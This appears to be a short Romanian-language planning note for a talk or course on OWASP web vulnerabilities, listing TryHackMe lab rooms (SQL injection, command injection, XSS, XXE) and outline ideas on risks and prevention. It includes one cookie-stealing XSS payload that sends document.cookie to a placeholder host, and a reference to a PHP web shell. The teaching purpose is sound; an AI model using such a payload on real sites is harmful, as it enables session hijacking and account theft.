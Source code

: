 
1. https://tryhackme.com/room/owaspjuiceshop  --> SQL Injection exemplu practic.

2. https://tryhackme.com/room/chillhack --> Command Injection ip 10.x.x.x/evilshell.php

3. https://tryhackme.com/room/owaspjuiceshop --> Broken authentication


7. https://tryhackme.com/room/xssgi --> XSS 

```
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
```





De considerat/facut:

fontul de la cuprins
 - exemplu de cazuri (de exemplu unde au fost SQL Injection) - https://brightsec.com/blog/sql-injection-attack/

- pastram exemplul cu shell;

- concept: ce este, riscuri ce poate face
- riscurile la inceput, preventia dupa : riscuri si preventia
- de gasit ex practic la orice;
- la components log4j

ce este, exemplu practic, riscuri si preventie
 - de pus cazuri reale







https://tryhackme.com/room/xxe
